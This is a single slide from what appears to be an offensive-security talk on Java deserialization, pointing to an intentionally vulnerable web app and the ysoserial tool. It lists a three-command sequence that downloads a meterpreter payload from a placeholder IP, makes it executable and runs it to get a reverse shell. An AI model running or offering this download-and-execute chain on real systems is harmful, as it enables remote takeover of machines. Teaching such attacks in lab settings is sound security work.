

# Deserialization in Java
Vulnerable app
https://github.com/hvqzao/java-deserialize-webapp
Includes Apache Commons Collection
Ysoserial exploit only runs one command
Reverse shell in three commands
wget IP/meterpreter
chmod +x meterpreter
./meterpreter

22